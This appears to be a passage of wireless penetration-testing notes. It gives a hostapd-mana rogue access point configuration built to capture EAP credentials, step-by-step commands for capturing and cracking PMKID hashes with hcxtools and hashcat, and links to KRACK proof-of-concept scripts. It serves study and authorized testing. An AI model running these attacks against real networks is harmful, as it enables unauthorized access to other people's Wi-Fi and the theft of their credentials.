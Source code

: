 karma.conf
```
interface=wlan1
ssid=nothing
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
```

### PMKID Attack
Traditional handshake capture and brute force methods wait for client to de-authenticate and re-authenticate while PMKID attack doesn’t. Direct PMKID is captured in this attack and then cracked.  

Many routers cache PMKID of exchange process in a collection of information PMKSA, so that the next time client de and re-authenticates 4-way handshake won’t be done again and router would directly ask the client for PMKSA, verify it and he would be re-associate it back with an access point.  

PMKID is a field in the RSN IE frame (Robust Security Network Information Element). RSN IE is an optional frame found in routers.  

```
apt install hcxtools
hcxdumptool -o PMKID_results -i wlan0mon
hcxpcaptool -z hashPMKID PMKID_results
```

Cracking PMKID hashes using hashcat (newer version of hashcat -m 22000)
```
hashcat -a 0 -m 16800 pmkid.txt ../../wordlists/wordlistsOnex/
```

### Key Reinstallation Attack (KRACK)
- https://www.krackattacks.com/
KRACK attack or Key Reinstallation Attack. 

**Toolset**: 
- https://github.com/vanhoefm/krackattacks-scripts  
- https://github.com/vanhoefm/krackattacks-poc-zerokey
